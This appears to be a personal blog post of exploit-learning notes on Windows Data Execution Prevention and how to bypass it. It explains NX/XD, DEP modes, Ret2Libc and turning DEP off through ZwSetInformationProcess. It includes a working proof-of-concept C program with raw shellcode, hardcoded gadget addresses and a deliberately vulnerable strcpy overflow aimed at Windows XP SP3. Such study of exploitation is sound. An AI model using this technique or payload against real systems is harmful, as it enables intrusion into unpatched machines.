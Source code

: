 ```yaml
---
title: Exploit learning notes 014 DEP Introduction
Description: Windows DEP protection and simple attack methods
date: 2020-11-19 12:42:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/posts/exploit-learning-notes-014-dep-introduction/)

## Introduction to DEP

> The root cause of overflow attacks is the failure to accurately distinguish between data and code, but redesigning the computer architecture is unlikely, so various approaches are used to mitigate overflow attacks

### Principle

- The memory page where the data is located is marked as non-executable, and the CPU will throw an execution exception when the program successfully overflows into the shellcode
- DEP is divided into software DEP and hardware DEP, while software DEP refers to SafeSEH, hardware DEP is called No-Execute Page-Protection (NX) on AMD platforms and Execute Disable Bit (XD) on Intel platforms
- The operating system indicates that the code cannot be executed from here by setting the NX and XD tags on the memory page, and a tag is inserted in the PageTable to identify whether this page is running execution instructions, with 0 indicating allowed and 1 indicating not allowed

### The working status of DEP

- Optin: Allow system components and services to use DEP, other programs will not be protected, and the user can mark the program to use DEP through the ACT tool, this protection can be dynamically closed by the program, mostly used for ordinary user operating systems
- Output: Enable DEP for programs that are excluded from the list, mostly used in server operating systems
- AlwaysOn: DEP protection is applied to all programs and cannot be turned off, only 64-bit operating systems use this mode
- AlwaysOff: not used in general

### Compile options

> `/NXCOMPAT` compile option will set `IMAGE_DLLCHARACTERISTICS_ NX_COMPAT` flag in PE header, located in `IMAGE_OPTIONAL_HEADER` in `DllCharacteristics`, a value of `0x100` means DEP is enabled

## Challenging DEP with Ret2Libc

### Principle

- The reason for overflow failure during DEP protection is that DEP detects that the code is executing on a non-executable page, and if the program is allowed to jump directly to a pre-existing system function, it will necessarily not be intercepted
- `Ret2Libc` is the abbreviation of `Return-to-libc`, if each exploit finds a replacement in the system lib, then this exp must be executed correctly, but the problem is that not every instruction does not contain 0, and it is easy to jump to the wrong place constantly
- Here are three possible ways
  - Jump to `ZwSetinfomationProcess` function to turn off DEP and go to shellcode
  - Jump to `VirtualProtect` to make the shellcode page executable, then go to shellcode execution
  - Jump to `VirtualAlloc` to request a piece of executable memory space and then jump to shellcode execution

### Try ZwSetinfomationProcess to close DEP

#### Preceding content

- The DEP identifier of a process is present in the `_KEXECUTE_OPTION` of the `KPROCESS` structure and can be modified by the API function

> `_KEXECUTE_OPTION` structure

```cpp
Pos0ExecuteDisable:1bit
Pos1ExecuteEnable:1bit
Pos2DisableThunkEmulation:1bit
Pos3Permanent:1bit
Pos4ExecuteDispatchEnable:1bit
Pos5ImageDispatchEnable:1bit
Pos6Spare:2bit
```

- When the current process DEP is on, `ExecuteDisable` will be set to 1
- When the current process DEP is closed, `ExecuteEnable` will be set to 1.
- `DisableThunkEmulation` is set for ATL compatibility
- `Permanent` is set to 1 to indicate that none of these flags can be modified
- We can set `ExecuteEnable` to 1 by setting the value of `_KEXECUTE_OPTIONS` to `0x02(00000010)`.

#### shellcode principle

- The `LdrpCheckNXCompatibility` function checks for DEP compatibility and will turn off DEP if one of the following conditions is met
  - The DLL is protected by the SafeDisc copyright protection system
  - If the DLL contains `.aspack`, `.pcle`, `.sforce`, etc. bytes
  - When the DLL exists in a module declared in the registry that does not require DEP to be enabled `HKEY_LOCAL_MACHINE\SOFTWARE \Microsoft\ Windows NT\CurrentVersion\Image File Execution Options\DllNXOptions`

#### Code

> Test environment: System: Windows XP SP3, DEP Status: Optout, Compiler: VC6, Compile Options: Disable Optimization, Version: release

```cpp
ULONG ExecuteFlags = MEM_EXECUTE_OPTION_ENABLE;

ZwSetInformationProcess(
    NtCurrentProcess(),     // Handle(-1)
    ProcessExecuteFlags,    //0x22
    &ExecuteFlags,          // ptr to 0x2
    sizeof(ExecuteFlags)    //0x4
);
```

```cpp
#include <string.h>
#include <windows.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C" // mov eax, 1
"\x96\x73\x1B\x5D" // mov ebp, esp & esp+8
"\x1E\xAD\x17\x5D" // esp+0x24
"\xB4\xC1\xC5\x7D" // jmp esp
"\x90\x90\x90\x90"
"\x24\xCD\x93\x7C" // call Close DEP
"\x90\x90\xE9\x2D" // jmp to shellcode start
"\xFF\xFF\xFF\x90"
;

void test()
{
    char tt[176];
    strcpy(tt,shellcode);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

#### Technical details

- Need to compare whether al is 1 or not, so the first step retn will return to `mov eax, 1`, the address of `retn`, this address will return to the location of repair ebp
- Because before calling the function, the value in ebp will be accessed, but it has been swiped, so ebp will be repaired, here we use `push esp`, `pop ebp`, `retn` three instructions to assign the address in esp to ebp, because retn is followed by a number, so ebp will add this number, that is `ebp+8`, at this time ebp is smaller than esp, once the subroutine is called, the stack area will be destroyed, so we still have to add some more ebp, I choose to add 0x24 to esp, and the previous 0x8 to make a stack space of 0x30, so that in the return time will return to the statement `retn 0x24`.
- The `retn 0x24` statement will return to the place where the function `ZwSetInformationProcess` is called to close the DEP, and after that it will use the leave statement and retn, so it will return to the address of `jmp esp`.
- Jump from `jmp esp` to the address where `\x24\xCD\x93\x7C` data is stored, and this garbage data will not affect the execution of shellcode
- Just write a jump after the garbage data, and then jump to the real execution of shellcode
